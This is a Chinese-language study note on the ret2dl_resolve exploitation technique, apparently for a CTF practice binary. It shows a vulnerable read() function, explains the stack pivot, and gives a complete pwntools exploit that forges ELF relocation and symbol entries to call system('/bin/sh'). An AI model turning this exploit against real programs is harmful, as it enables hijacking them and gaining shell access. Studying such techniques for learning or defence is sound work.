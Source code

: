 ﻿# ret2dl_resolve 学习

标签（空格分隔）： pwn 栈 ret2dlresolve

---

补习了一下栈的知识，看了一下最难的利用方式，发现还是有好多要学习的地方
ret2dlresolve主要就是在没有libc的时候，利用动态延迟绑定来进行利用的一种手法
总体来说比较麻烦，需要阅读源码理解
这里写一下总体的思路
首先程序调用系统函数的时候调用系统函数时先找plt，plt里面有一个偏移的index，之后跳到got表中执行，在这里会进行一堆操作，而且参数是基于栈传递的，这就说明如果我们控制了栈内的参数就可以在调用系统函数时做文章
这里贴一个参考[链接][1]


漏洞利用方式主要就是：
1.控制eip为PLT[0]的地址，只需传递一个index_arg参数
2.控制index_arg的大小，使reloc的位置落在可控地址内
3.伪造reloc的内容，使sym落在可控地址内
4.伪造sym的内容，使name落在可控地址内
5.伪造name为任意库函数，如system
源程序里栈的溢出字节很小，所以不能把整个payload写进去

    ssize_t vuln()
    {
      char buf; // [esp+Ch] [ebp-6Ch]
    
      setbuf(stdin, &buf);
      return read(0, &buf, 0x100u);
    }

这里只能溢出0x30字节，所以需要栈转移（stack pivot）这一手法
目的是将栈地址搞到一个可控的地址去，一般是堆或者bss段，涉及到的指令（gadget）是pop ebp ret以及 leave ret（pop esp当然也可以，不过很难找）
leave这一指令作用就是：mov esp ebp；pop ebp
pop ebp之后在执行leave就实现栈转移了
而后就是设置一堆字段的值
首先我们要知道plt[0]的地址，在ida里面看到前缀.plt那里就是plt的地址
而后需要知道rel.plt的地址，在ida里面找到ELF JMPREL Relocation Table
之后是dynsym（ELF Symbol Table）以及dynstr（ELF String Table）
有了这些地址之后就可以构造伪造的地址以及一些dl-runtime的参数
在构造的时候注意一些字段需要对齐
具体的构造方式见exp
exp：

    from pwn import *
    context.log_level = 'debug'
    io = process('./bof')
    #libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    elf = ELF('bof')
    
    write_got = elf.got['write']
    read_got = elf.got['read']
    write_plt = elf.plt['write']
    read_plt = elf.plt['read']
    pop_esi_edi_ebp_ret = 0x08048619
    pop_ebp_ret = 0x0804861b
    leave_ret = 0x08048458  #mov esp ebp
    						#pop ebp
    bss = 0x804A040
    stack = 0x800
    stack_base = bss + stack
    
    io.recvline()
    
    payload = 'A' * 0x70
    payload += p32(read_plt)
    payload += p32(pop_esi_edi_ebp_ret)
    payload += p32(0)
    payload += p32(stack_base)
    payload += p32(100)
    payload += p32(pop_ebp_ret)
    payload += p32(stack_base)
    payload += p32(leave_ret)
    io.sendline(payload)
    
    plt_0 = 0x8048380
    #write_offset = 0x20	# ida .plt:0x80483D6
    rel_plt = 0x8048330	# ida  ELF JMPREL Relocation Table
    				   	# objdump -s -j .rel.plt bof
    index_offset = (stack_base + 28) -rel_plt
    					#fake reloc now in stack_base + 28
    #r_info = 0x607		#ida  ELF JMPREL Relocation Table
    dynsym = 0x80481D8	# ELF Symbol Table
    dynstr = 0x8048278	# ELF String Table
    fake_sym_addr = stack_base + 36
    align = 0x10 - ((fake_sym_addr - dynsym) & 0xf)
    fake_sym_addr = fake_sym_addr + align
    index_dynsym = (fake_sym_addr - dynsym) / 0x10
    r_info = (index_dynsym << 8) | 0x7
    fake_reloc = p32(write_got)+p32(r_info)
    st_name = (fake_sym_addr + 0x10) - dynstr	#0x10 is len(fake_sym)
    					#  ELF Symbol Table shift + e
    fake_sym = p32(st_name) + p32(0) + p32(0) + p32(0x12) 
    cmd = '/bin/sh'
    
    payload2 = 'AAAA' #ebp
    payload2 += p32(plt_0)
    payload2 += p32(index_offset)
    payload2 += 'AAAA'#ret addr
    #payload2 += p32(1)
    payload2 += p32(stack_base+80)
    payload2 += 'aaaa'
    payload2 += 'aaaa'
    #payload2 += p32(len(cmd))
    payload2 += fake_reloc
    payload2 += 'B'	* align
    payload2 += fake_sym
    payload2 += 'system\x00'
    payload2 += 'A' * (80 - len(payload2))
    payload2 += cmd + '\x00'
    payload2 += 'A' * (100 - len(payload2))
    io.sendline(payload2)
    
    io.interactive()

[参考链接][2]


  [1]: http://www.inforsec.org/wp/?p=389
  [2]: http://pwn4.fun/2016/11/09/Return-to-dl-resolve/